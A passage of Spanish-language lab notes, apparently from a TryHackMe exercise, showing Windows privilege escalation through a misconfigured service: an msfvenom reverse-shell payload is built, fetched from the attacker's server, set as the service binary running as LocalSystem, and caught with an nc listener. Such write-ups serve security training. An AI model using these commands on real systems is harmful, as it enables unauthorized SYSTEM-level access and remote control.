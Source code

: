 - Nuevamente generar el payload de msfvenom en la máquina del atacante:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.3.78 LPORT=4446 -f exe-service -o rev-svc2.exe`

- Descargarlo en la máquina victima: 
`wget http://10.10.3.78:8000/rev-svc2.exe`

- Le damos permisos:  
```cmd
C:\Users\thm-unpriv>icacls rev-svc2.exe /grant Everyone:F
processed file: rev-svc2.exe
Successfully processed 1 files; Failed processing 0 files
```
- Cambiamos la configuración del servicio:
```cmd
C:\Users\thm-unpriv>sc config THMService binPath="C:\Users\thm-unpriv\rev-svc2.exe" obj=LocalSystem
[SC] ChangeServiceConfig SUCCESS
```
- Reiniciamos el servicio
```
C:\Users\thm-unpriv>sc stop THMService
[SC] ControlService FAILED 1062:

The service has not been started.


C:\Users\thm-unpriv>sc start THMService

SERVICE_NAME: THMService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 3792
        FLAGS              :

C:\Users\thm-unpriv>
```
- Ponemos antes listener en la atacante
```bash
root@ip-10-10-3-78:~# nc -lnvp 4446
Listening on [0.0.0.0] (family 0, port 4446)
Connection from 10.10.39.85 49831 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```
